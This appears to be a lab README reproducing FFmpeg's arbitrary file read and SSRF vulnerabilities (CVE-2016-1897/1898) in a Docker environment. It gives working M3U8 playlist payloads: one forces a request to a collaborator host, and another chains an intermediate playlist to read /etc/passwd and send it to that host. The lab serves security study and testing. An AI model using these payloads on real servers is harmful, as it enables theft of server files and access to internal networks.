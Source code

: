 # FFmpeg Arbitrary File Read and SSRF (CVE-2016-1897/CVE-2016-1898)

[中文版本(Chinese version)](README.zh-cn.md)

FFmpeg is a popular multimedia framework that can handle various audio and video formats. In the FFmpeg version prior to 2.8.5, 2.7.5, 2.6.7, 2.5.10, 2.4.13, two vulnerabilities were discovered that could allow attackers to read arbitrary files (CVE-2016-1897) or perform Server-Side Request Forgery (SSRF) attacks (CVE-2016-1898).

References:

- <https://tttang.com/archive/465/>
- <http://habrahabr.ru/company/mailru/blog/274855/>
- <http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>

## Environment Setup

Execute the following commands to build and start the environment:

```
docker compose up -d
```

After the server starts, it will listen on port 8080. Visit `http://your-ip:8080/` to access the application, the application is a simple video player that allows users to upload and play videos.

## Vulnerability Reproduction

Upload the following poc to reproduce the SSRF vulnerability using collaborator server:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://collaborator/ssrf
#EXT-X-ENDLIST
```

As you can see, the collaborator server will receive the request:

![](1.png)

To reproduce the arbitrary file reading, you should serve a intermediate file on an accessible server (for example, `http://intermediate.example.com/intermediate.m3u8`) with following content:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://collaborator/fileread?
```

The content of the files you stole will be sent to the collaborator server specified in the intermediary file above.

Then, use the intermediate file to construct the POC and upload it:

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://intermediate.example.com/intermediate.m3u8|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

As you can see, the collaborator server will receive the request that contains the content of `/etc/passwd`:

![](2.png)
